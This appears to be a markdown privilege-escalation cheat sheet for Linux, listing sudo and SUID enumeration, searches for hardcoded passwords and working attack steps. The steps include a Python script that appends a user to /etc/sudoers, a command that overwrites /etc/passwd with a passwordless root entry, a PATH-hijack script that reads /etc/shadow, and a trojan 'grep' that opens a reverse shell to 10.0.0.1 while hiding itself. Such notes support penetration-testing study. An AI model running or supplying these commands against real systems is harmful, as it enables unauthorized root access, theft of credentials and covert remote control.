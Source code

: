 # GTFO Bins:
GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
```
https://gtfobins.github.io/
```

# Commands:
check to see what sudo privledges the user has
```
sudo -l
cat /etc/sudoers
```

# other Super Users?:
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 {print $1}'
```

# lists available exploits Linux kernel in kali Linux
```
searchsploit Linux Kernel 2.6.24 
```


# Grep hardcoded passwords:
### Use grep to look for user in filename
```
grep -i user [filename]
```
### Use grep to look for pass in filename
```
grep -i pass [filename]
```
### Use grep to look for password in filename
```
grep -C 5 "password" [filename]
```
### find php file and check them for the variable $password
```
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```



# root access:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```

## services which are running as root
```
ps -aux | grep root
```

## check if web server runs as root
```
grep "localhost" ./ -R
```

# Add username to sudoers in python.
```
#!/usr/bin/env python

import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

# Use Python to run script in zip file:
```
mkdir test
echo 'print("Hello World!!") > test/__main__.py
zip -j test.zip test/*
python test.zip
```



## cronjob
If there is a cronjob that runs as root but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

## list processes running by root, permissions and NFS exports
```
echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

# if you have write permissions for /etc/passwd 
back up current/etc/passwd
```
cp /etc/passwd /etc/passwd.bak
```
overwrite /etc/passwd to gain root access
```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


# ltrace
ltrace to find were a program makes system calls:
find a program with Setuid used
```
find /usr/bin -perm -4000
```
find a program that runs with root priveledges
```
ls -l </path/to/program>
```
try program to see what it requires, maybe try a --help flag. use ltrace to check to see if it calls another script or program that we have access to
```
ltrace </path/to/program> <required options to run>
```
look for system calls where the program is not a specific path for example if it calls grep without specifying a path if so create a script to run:

##Grab Hash script:
```
#!/bin/dash
cat /etc/shadow
```
## **note Bash likes to drop setuid permissions but Dash will not**
make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
```
run the program that has root priveledges and it should call your script and give you the output


# auto-root script
Check history 
```
history
```
Change the name of the file you are creating to be a program they use often, especially if they use sudo with it. change the script to use the shell of your choice. 
```
nano grep 
```
Reverse shell backdoor
```
#!/bin/dash
# open reverse shell 
# change IP and Port to your attack machine settings
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
# open original program to prevent suspicion 
/usr/bin/grep
```

make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
OR
export PATH=$PWD:$PATH
```
run the program backdoor
```
./backdoor 
whoami
id
```
